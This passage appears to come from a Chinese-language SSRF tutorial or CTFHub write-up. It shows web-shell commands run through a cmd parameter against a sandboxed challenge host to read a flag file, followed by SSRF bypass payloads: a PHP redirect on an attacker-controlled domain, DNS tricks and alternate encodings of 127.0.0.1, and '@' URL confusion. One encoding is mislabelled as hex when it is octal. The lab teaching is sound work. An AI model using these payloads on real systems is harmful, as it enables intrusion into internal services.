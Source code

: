 3.拼接访问，显示504表示上传成功

![1717559121321](https://gitee.com/zh0y0/picture/raw/master/zh0y0/1717559121321.jpg)

4.使用参数拼接命令获取flag文件名

```
http://challenge-a830aea7fc3fba50.sandbox.ctfhub.com:10800/shell.php?cmd=ls /
```

![1717559283965](https://gitee.com/zh0y0/picture/raw/master/zh0y0/1717559283965.jpg)

5.获取flag文件内容

```
http://challenge-a830aea7fc3fba50.sandbox.ctfhub.com:10800/shell.php?cmd=cat /flag_83a27359946c8ecb8cdb437efc419f54
```

![1717559348975](https://gitee.com/zh0y0/picture/raw/master/zh0y0/1717559348975.jpg)

### 五、绕过技巧

#### 1.绕过内网域名或内网IP限制

- 因为 SSRF 通常被用来攻击内网应用，所以不少开发者针对 SSRF 漏洞做的防御方案，只是简单地限制URL 中的地址不允许为内网域名或内网IP 地址。但是很多HTTP 库会跟随HTTP跳转，因此前述防御方案就可以通过非常简单的跳转方式绕过。攻击者在自己的域名 evil.site中放一个test.php 文件，http://evil.siet/test.php  其作用就是跳转到一个内网地址，使用 http://evil.site/redirect.php 就可以绕过服务端的内网域名限制

```
<?php
header("Location: http://localhost/dvwa-master/");
exit;
?>
```

-  有很多短网址服务可以更方便地实现这个操作，但是前提是应用中使用的 HTTP 库支持跟随跳转。
- 使用一个伪造的域名也能轻易地绕过黑名单检测。比如攻击者申请一个域名 evil.site，修改它的A 记录，解析到 127.0.0.1，也可以通过 SSRF 攻击访问服务器本身。

####  2.绕过黑名单限制

以下地址都是在访问http://127.0.0.1:8080

- ​	    http://localhost:8080/
- ​		http://127.1:8080
- ​		http://2130706433:8080
- ​		http://0.0.0.0:8080
- ​		http://017700000001:8080  十六进制的127.0.0.1
- ​		http://127.127.127.127:8080		

#### 3.绕过白名单限制

- “@”绕过限制

http://www.baidu.com@127.0.0.1 等于http://127.0.0.1

http://example.com@127.0.0.1:8080

